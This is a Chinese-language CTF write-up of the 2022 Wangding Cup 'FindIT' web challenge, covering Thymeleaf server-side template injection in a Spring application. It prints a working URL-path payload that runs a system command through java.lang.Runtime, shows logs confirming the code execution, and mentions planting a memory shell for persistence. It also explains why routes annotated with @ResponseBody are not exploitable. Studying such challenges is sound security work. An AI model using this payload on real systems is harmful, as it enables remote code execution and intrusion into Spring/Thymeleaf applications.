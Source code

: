 ```yaml
---
layout: about
category: about
toc: true
wrench: 2022-12-12
Researchname: 2022年网鼎杯玄武组赛题复盘-[Web-FindIT]
author: Bin4xin
permalink: /about/WANGDINGCTF2022-WEB-FindIT-Walkthrough/
desc: 「CTF」
---
```


## Web-FindIT赛题复盘

本文主要参考《2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造》参考进行复盘；

实际上我们一开始拿到jar包也是尝试几个路由是否存在`SSTI`漏洞，不过CTF基本上通用的payload[^1]基本上是不生效的：

![2022-09-21-10.46.42.png](https://image.yjs2635.xyz/images/2022/09/21/2022-09-21-10.46.42.png)

### # SSTI payload及绕过复现

我们直接把payload[^2]拿过来：

```
/doc/;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22id%22)%7D__::main.x
```

可以看到console报错`UnixProcess`说明命令注入成功了的：

```console
2022-09-22 06:50:03.785  INFO 1 --- [nio-8080-exec-2] c.e.demo.controller.IndexController      : info: __${T (java.lang.Runtime).getRuntime().exec("id")}__::main.x
2022-09-22 06:50:04.004 ERROR 1 --- [nio-8080-exec-2] org.thymeleaf.TemplateEngine             : [THYMELEAF][http-nio-8080-exec-2] Exception processing template "doc/java.lang.UNIXProcess@1331b3c8::[main]": Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers

org.thymeleaf.exceptions.TemplateInputException: Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers
```

不过我们同样尝试写入payload注入内存马时却报错

![2022-09-22-15.13.04.png](https://image.yjs2635.xyz/images/2022/09/22/2022-09-22-15.13.04.png)

我们观察一下发现和之前的console报错时不一样的：

```console
Error resolving template [doc/java.lang.UNIXProcess@1331b3c8]
```

成功应该是注入代码成功被识别成模版，然后汇报模版解析过程的问题（如上）；而失败则并未被识别成模版（如下）：

```console
java.lang.IllegalArgumentException: Invalid template name specification:
```

不过通过以上的payload确实是可以成功RCE的：

![2022-12-02-10.47.59.png](https://image.yjs2635.xyz/images/2022/12/02/2022-12-02-10.47.59.png)


我们需要根据参考2生成内存马，实现效果如下：

![image.png]({{site.PicturesLinks_Domain}}/images/2022/12/02/image.png)

所以下一步是需要根据payload生成持久化的shell[^3]，因为机器不出网，且没有回显；

所以我们尝试搞清楚：

- 1.用了`@ResponseBody`注解的路由，不存在漏洞；
- 2.没有使用`@ResponseBody`进行注解的路由，因此即使没有`return`情况下也是可注入的。

如果

### # @ResponseBody

我们找到了官方文档[^4]一些大牛的解答，就不在这里班门弄斧了，引用《Thymeleaf SSTI漏洞分析》参考原文[^5]：

- 问题1：

> 配置了ResponseBody注解确实无法触发，经过调试在`applyDefaultViewName`中`ModelAndView`是`Null`，而非`ModelAndView`对象，所以
>
> `hasView()`会异常，不会设置视图名。

更多移步[配置ResponseBody或RestController注解](https://xz.aliyun.com/t/10514#toc-13){:target="_blank"}

- 问题2：

> [引用参考文章第四章](https://xz.aliyun.com/t/10514#toc-5){:target="_blank"}分析了`SpingMVC`视图解析的过程，在解析视图首先获取返回值并封
>
> 装为`ModleAndView`，而在当前当前环境中并没有返回值，按理说`ModelAndView`应该为空，为什么还能正常得到`ModleAndView`呢？
>
> 原因主要在`DispatcherServlet#doDispatch`中，获取ModleAndView后还会执行`applyDefaultViewName`方法。

更多移步[urlPath中传入Payload可以执行](https://xz.aliyun.com/t/10514#toc-11){:target="_blank"}


## 参考

[^1]: [Thymeleaf 模板注入命令执行](https://zhuanlan.zhihu.com/p/248416919){:target="_blank"}
[^2]: [2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造](https://xz.aliyun.com/t/11688){:target="_blank"}
[^3]: [CTF-you-can-find-it (2022 网鼎杯 玄武组 web ctf thymeleaf SSTI bypass and memshell to retrive flag)](https://github.com/testivy/wangding_2022_ctf_findit){:target="_blank"}
[^4]: [Thymeleaf 3.0.12 — Release Notes](https://www.thymeleaf.org/releasenotes.html#thymeleaf-3.0.12){:target="_blank"}
[^5]: [Thymeleaf SSTI漏洞分析](https://xz.aliyun.com/t/10514){:target="_blank"}